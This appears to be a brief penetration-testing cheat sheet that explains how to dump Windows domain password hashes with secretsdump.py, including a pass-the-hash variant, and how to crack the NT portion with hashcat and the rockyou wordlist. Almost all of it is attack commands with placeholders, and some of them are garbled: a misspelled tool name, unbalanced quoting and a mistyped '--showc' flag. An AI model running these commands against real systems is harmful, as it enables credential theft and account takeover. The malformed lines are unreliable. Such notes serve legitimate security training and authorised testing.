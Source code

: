 # Dumping And Cracking Hashes

```
secretsdump.py <domainname>/<userer>:'<pswd>@<ip>
```

for hash

```
secretdumps.py <user>@<ip> -hashes <>
```

Cracking hashes

For Cracking hashes we only need NT portion not lm

eamplex-

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>The Secound part of the hash</p></figcaption></figure>

Save that hash into a text file&#x20;

```
hashcat --help | grep <hash type>
```

Then we get an number

```
hashcat -m <the number> <filename> /usr/share/wordlists/rockyou.txt
```

```
hashcat -m <the number> <filename> /usr/share/wordlists/rockyou.txt --showc
```
